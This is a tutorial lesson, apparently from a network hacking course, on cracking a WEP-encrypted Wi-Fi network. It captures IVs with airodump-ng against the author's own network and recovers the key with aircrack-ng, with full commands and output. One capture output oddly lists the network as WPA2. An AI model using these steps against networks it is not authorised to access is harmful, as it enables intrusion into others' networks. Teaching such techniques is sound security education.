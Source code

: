 ```yaml
---
title: WEP Cracking Basics
type: default
layout: page
child: Hacking
fold: Network Hacking
---
```


From the previous lesson, we learned that in order to crack a network whose
encryption is WEP, first we need to capture a big number of packets, that also
means that we will capture a lot of IVs and due to its small size they will
start to get repeated, this will allow us to use a tool called _aircrack-ng_ to
execute a statistical attack and obtain the WEP key.

First, we'll use _airodump-ng_ to capture the data, then we'll use _aircrack-ng_
to analyse them and obtain the key.

```bash
CH  9 ][ Elapsed: 0 s ][ 2020-12-31 08:48                                         
                                                                                                  
 BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                  
 9C:C8:FC:4D:01:8F  -71        2        0    0  11  54e. WPA2 CCMP   PSK  FamiliaH                
 9C:C8:FC:4D:10:CA  -23        4        2    0   6  54e. WEP  WEP    PSK  TIGO-7A54               
 50:75:F1:EA:83:A2  -69        5        0    0   1  54e. WPA2 CCMP   PSK  PEDROJUAN               
 D4:CA:6D:B9:78:E9  -77        3        6    0   1  11 . WPA2 CCMP   PSK  Verito                  
 C4:27:95:62:EE:1E  -64        2        0    0  11  54e  WPA2 CCMP   PSK  HOME-EE1E               
                                                                                                   
 BSSID              STATION            PWR   Rate    Lost    Frames  

```

I executed airodump-ng against all the networks around me and as you can see
there's only one network using the WEP encryption, that network is called
"_TIGO-7A54_", this is the network that I use everyday I simply changed its
encryption.

As I said before, we'll need a network with a high a continuous packet flow, as
my network is not that active I will be generating these packets by myself, in
the next lessons I will show you how you can also generate those packets.

I will execute airodump-ng against this network only, we already know how to do
that. We'll execute the command "_airodump-ng_" and we'll use the argument
"_--bssid_" to specify the BSSID of our target network, then we'll write
"_--channel_" followed by the channel in which our target network is being
executed, we'll also need to write all the captured data into a file, to do that
we'll use the "_--write_" argument, I will set the file name to "_basicattack_"
and finally, we will pass the name of our interface in monitor mode. My command
looks like this:

```bash
airodump-ng --bssid 9C:C8:FC:4D:10:CA --channel 6 --write basicattack wlp2s0mon
```

Output:

```bash
 CH  6 ][ Elapsed: 6 s ][ 2020-12-31 08:53                                         
                                                                                                  
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                  
 9C:C8:FC:4D:10:CA  -19 100       88    16827    1   6  54e. WPA2 CCMP   PSK  TIGO-7A54           
                                                                                                  
 BSSID              STATION            PWR   Rate    Lost    Frames  Probe
```

If your network's packet flow (traffic) is high and continuous, you'll note that
the values under the "_#Data_" column will start increasing very fast. I talked
about this briefly before. Basically, what is under the "_#Data_" section is the
number of useful packets, those are the packets that contain a different IV
(Initialisation vector) and we will be able to use it later on for crack the
password of the network, so, the greater the number of these packets are, the
greater our possibilities to crack the password are.

If your target network doesn't behave this way, don't worry, in the next lessons
I will teach you to generate this traffic all by yourself.

Once you have enough packets, you'll open a new terminal (or if your terminal
supports several tabs, create a new one), you'll _cd_ to the directory where the
files generated by the previous command are stored and execute _ls_ to list them
all (be sure to check if the file "_basicattack-01.cap_" exists).

Now, what's just left to do is execute "_aircrack-ng_" on this file, to do so,
just execute "_aircrack-ng_" followed by the name file, in my case the command
looks like this:

```bash
aircrack-ng basicattack-01.cap
```

When you execute that command, if the number of packets is enough to obtain the
key, you'll see that "_aircrack_ng_" will tell us that the key was found and now
we can connect to the _WEP_ network.

My aircrack-ng output:

```bash
Opening basicattack-01.cap
Read 226934 packets.

   #  BSSID                   ESSID                 Encryption
   1  9C:C8:FC:4D:10:CA       TIGO-7A54             WEP (102740 IVs)

Choosing first network as target.

Opening basicattack-01.cap
Attack will be restarted every 5000 captured ivs.
Starting PTW attack with 102740 ivs.
                     KEY FOUND! [ 30:31:32:33:34 ] (ASCII: 01234)
        Decrypted correctly: 100%
```

If _aircrack-ng_ returned the ASCII password, that's to say, in plain text, you
can use that password to connect to the network. If that's not your case, you
can just copy the other key (_30:31:32:33:34_), delete the colons and use that
key to connect to the network (3031323334).
